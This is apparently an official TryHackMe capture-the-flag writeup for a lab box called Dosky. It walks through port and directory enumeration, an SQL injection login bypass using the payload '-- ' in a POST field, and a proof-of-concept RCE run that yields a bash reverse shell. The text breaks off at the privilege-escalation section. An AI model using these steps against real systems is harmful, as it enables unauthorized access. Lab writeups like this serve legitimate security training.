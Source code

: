 <h1 align="center">Dosky Exploitation</h1> 
<h6 align="center"> Official Writeup for Try Hack Me</h6>

<p>Dosky is a challenge that will test your knowledge of informations security in differents areas such as:</p>
<ui>
	<li>Service Enumeration.</li>
	<li>WebApp Exploitation.</li>
	<li>Vulnerabilities exploitation using exploits.</li>
	<li>Linux Enumeration.</li>
	<li>Privilege Escaletion</li>
</ui>

___
<h3 align="center">Enumeration</h3>
<p>After deploying our virtual machine we have to enumerate services, we do not know what this server is actually running but we can try to figure out it.</p>

<p>First we will start scanning ports with <b>Rustscan</b>, this scanner is fast so we can scan all  ports in a few seconds.</p>

```
rustscan 10.10.159.174 --ulimit 5000 -- -p-

Open 10.10.159.174:22
Open 10.10.159.174:80
Open 10.10.159.174:5000
Open 10.10.159.174:10515

```
<p>There are some services runing, using <b>Nmap</b> now we can receive more information about the ports we know that are oppened</p>

```
PORT         STATE SERVICE VERSION
22/tcp         open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp         open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp     open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
10515/tcp   open  unknown

```
<ur>
	<li>Openssh is a normal service and we would need to find credentials to have access to it, let's take a look on it after.</li>
	<li>The port 80 is running apache2, as well it is a normal service and we can enumerate looking for information.</li>
	<li>Running on port 5000 we have an interesting service, maybe flask webapp, we will have to see this.</li>
	<li>But now we have a service that cannot be detected by nmap, we will have to see it manually.</li>
</ur>

### Apache2
<p>We have an apache server running, however this does not seem to be anything interesting as it is just a default service page showing.</p>
<p>Even viewing the code, nothing catches my attention, just a few modified texts and in different languages.</p>

### Dosky's Web Page
<p>Entering the service that runs on port 5000 we find a website about a software called dosky.</p>
<p>A normal website about the service, and reading a little about it I find out what Dosky is: Dosky is a software that is based on server and client side in two separate programs, so you can manage the services that run on your server remotely and in a secure way..</p>
<p>Okay, now that we see this let’s try to exploit something.</p>

<p>First let’s enumerate the directories of the website. we will use gobuster.</p>

```
/admin (Status: 200)
/console (Status: 200)
/download (Status: 200)
/robots.txt (Status: 200)
```

<p>Gobuste were able to find some interesting directories, one of them refers to a console that runs on Flesk applications under development and it is in debug mode, but we would have to have the pin to have access, so we wont lost our time with it.</p>
<p>"/download" can be accessed through the main page, this makes us download a program that is Dosky_Client, can be useful.</p>
<p>The webpage shows us that there is an Bug Bounty program opened for the public tu thest their aplications. After entering the Bug Bounty page it seens to be under contruction, but has a email for contact.</p>

`Email: hanny@dosky.com` It can be usefull.

<h3 align="center">WebApp Exploitation</h3>

<p>Taking a little deeper look at <b>/admin</b> takes us to the administration page that is protected by a login and password form.</p>

<p>This form allows only email to be inserted, which makes it difficult to explore, however we can bypass using a reverse proxy like <b>Burp Suite</b>.</p>

<p>This way I was able to do some tests and finally find out that the application is vulnerable to <b>sql injection</b>, so even without knowing the password we can use that email that you had found on the Bug Bounty page to bypass the authentication.</p>

### SQL Injection Time
<p>With the Burp Suite connected and intercepting all the traffic we should try to log in to the form with the following credentials:</p>

```
Email: hanny@dosky.com
pasword: abc123
```

<p>And the post data would looks like this:</p>

```
email=hanny%40dosky.com&password=abc123
```

<p>So on the email we will inject the payload</p>

`'-- -` and the post request will look like this: `email=hanny%40dosky.com'-- -&password=abc123`
so we had a success.

### Exploiting Dosky
<p>On the dashboard we have an email from someone who participated in the program and found a failure in Dosky Server, we can read the report, which explains about remote code execution found in the software and we have access to the exploit.</p>

<p>We have to download the exploit then run it using python3.</p>

`Usage: exploit.py <Remote Host> <Port>`
<p>It's very simple and first we will just have to set the server's ip and port. The service is then that stranger running on port 10515.</p>

```
Dosky 1.0 RCE PoC
[OK] - Successful connection.
[OK] - Vulnerable!
[*] - Bash payload.
Local Host> <your ip>
Local Port> 4444
[*] - Generating payload.
[*] - Injecting payload:

Listening on 0.0.0.0 4444
0.0.0.0 Connection received on 40744
bash: cannot set terminal process group (900): Inappropriate ioctl for device
bash: no job control in this shell
dosky@dosky:~$ 

```

<p>And we got a reverse shell!!!</p>

<h3 align="center">Linux Enumeration</h3>
